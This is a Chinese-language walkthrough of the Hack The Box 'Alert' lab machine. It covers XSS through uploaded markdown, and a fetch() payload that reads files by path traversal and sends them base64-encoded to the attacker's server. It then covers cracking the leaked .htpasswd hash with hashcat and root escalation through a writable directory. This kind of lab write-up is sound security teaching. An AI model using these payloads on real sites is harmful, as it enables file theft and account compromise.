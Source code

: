 > 知识点
>
> - 信息收集
> - Self-XSS利用
> - 漏洞利用--盲打数据外带
> - 密码破解
> - 配置不当权限提升
> - 端口转发（可选）

# 相关信息

靶机：Alert Linux · Easy  IP：**10.10.11.44**

VPS：10.10.16.2

本地虚拟机：10.8.0.2

# 端口扫描

![image-20241130161051977](..\..\..\images\image-20241130161051977.png)

# Web渗透

## md上传预览功能

![image-20241130161200323](../../..\images\image-20241130161200323.png)

白名单文件上传只能上传.md文件，存在XSS

```markdown
[a](javascript:alert(window.location))
```

![image-20241130161443778](../../..\images\image-20241130161443778.png)

但是self-xss没有危害，不过这里右下角有一个share功能，如果可以分享给管理员那么就可以进行攻击

## 联系功能

### POC测试

那么先拿一个poc测试，md内容

```html
<iframe src="http://10.10.8.2:8888/test" width="500" height="100">
```

将该文件的分享链接发送给管理员

![image-20241130162235159](../../..\images\image-20241130162235159.png)

![image-20241130162312107](../../..\images\image-20241130162312107.png)

可以看到靶机发送的请求，证明可以使用XSS来进行攻击

### 读取文件

```js
<script>
fetch("http://alert.htb/messages.php?file=../../../../../../../filepath")
  .then(response => response.text())
  .then(data => {
    fetch("http://10.10.16.2:8888/?file_content=" + btoa(data));
  });
</script>
```

> 注意外带数据最好要进行编码，防止不合法字符

Payload

![image-20241130162818322](../../..\images\image-20241130162818322.png)

```php
filepath=/proc/self/cmdline  
```

```php
<pre>/usr/sbin/apache2.-k.start.</pre>
```

获得了服务器的中间件为apache

```php
filepath=/etc/apache2/sites-enabled/000-default.conf # Apache 服务器的默认虚拟主机配置文件，通常是 Apache 安装时自动创建的
```

```php
<Directory /var/www/statistics.alert.htb>
        Options Indexes FollowSymLinks MultiViews
        AllowOverride All
        AuthType Basic
        AuthName "Restricted Area"
        AuthUserFile /var/www/statistics.alert.htb/.htpasswd
        Require valid-user
    </Directory>
```

获得了敏感信息`AuthUserFile /var/www/statistics.alert.htb/.htpasswd`（.htpasswd用于存储 Apache Web 服务器的用户认证密码）

```
filepath=/var/www/statistics.alert.htb/.htpasswd
```

```php
<pre>albert:$apr1$bMoRBJOg$igG8WBtQ1xYDTQdLjSWZQ/
</pre>
```

获得了用户密码密文

## 密码爆破

```cmd
hashcat.exe  -m 1600  -a  0  "D:\Note\pass.txt" "D:\Global\apps\wordlists\kali-master\rockyou.txt"
```



# 主机渗透

## 信息收集

![image-20241130164329994](../../..\images\image-20241130164329994.png)

![image-20241130164408916](../../..\images\image-20241130164408916.png)

root权限的php web服务

![image-20241130164505466](../../..\images\image-20241130164505466.png)

配置错误，monitors目录属于root，但是其他用户具有写权限，可以通过向该目录写入恶意PHP文件进行提权



## 提升权限

![image-20241130164725047](../../..\images\image-20241130164725047.png)

这里要注意的是监听的本地8080端口，而php脚本文件需要访问一次才能解析执行，所以需要curl这个文件，还有一种方法是进行端口转发

```cmd
ssh -CfNg -L 8080:127.0.0.1:8080 albert@10.10.11.44 # 通过albert@10.10.11.44将127.0.0.1:8080端口转发到本地8080端口
```

参考[SSH 端口转发教程 | 三点水 (lotabout.me)](https://lotabout.me/2019/SSH-Port-Forwarding/)

![image-20241130165209462](../../..\images\image-20241130165209462.png)

![image-20241130155510001](../../..\images\image-20241130155510001.png)







